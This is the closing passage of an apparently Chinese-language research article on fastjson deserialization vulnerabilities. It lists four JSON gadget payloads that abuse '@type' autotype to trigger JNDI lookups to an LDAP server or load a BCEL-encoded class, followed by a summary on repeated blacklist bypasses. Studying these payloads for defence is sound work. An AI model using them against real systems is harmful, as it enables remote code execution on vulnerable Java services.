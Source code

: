 ```json
}
```
JMSContentInterceptor
```json
{
	"@type": "org.apache.cocoon.components.slide.impl.JMSContentInterceptor",
	"parameters": {
		"@type": "java.util.Hashtable",
		"java.naming.factory.initial": "com.sun.jndi.rmi.registry.RegistryContextFactory",
		"topic-factory": "ldap://127.0.0.1:23457/Command8"
	},
	"namespace": ""
}
```

ContextClassLoaderSwitcher
```json
{
	"@type": "org.jboss.util.loading.ContextClassLoaderSwitcher",
	"contextClassLoader": {
		"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
	},
	"a": {
		"@type": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmS$ebN$d4P$...$A$A"
	}
}
```
OracleManagedConnectionFactory
```json
{
	"@type": "oracle.jdbc.connector.OracleManagedConnectionFactory",
	"xaDataSourceName": "ldap://127.0.0.1:23457/Command8"
}
```
JNDIConfiguration
```json
{
	"@type": "org.apache.commons.configuration.JNDIConfiguration",
	"prefix": "ldap://127.0.0.1:23457/Command8"
}
```

## 五、总结

通过全篇对 fastjson 诸多版本漏洞的学习和研究，可以发现作者不愿舍弃很多特性，而不停的在对程序的安全检查部分进行“打补丁”一样的漏洞修复手段，这就导致了很多漏洞反反复复的修补和绕过，不仅仅是新的 gadget 被挖掘出来需要 fastjson 不断的更新黑名单，更有很多特性点还是隐藏在程序中等待发现，其实从本文来讲，很多触发点我们只研究了其中的一种，如果肯花时间寻找调用方式，肯定还会有新的发现。
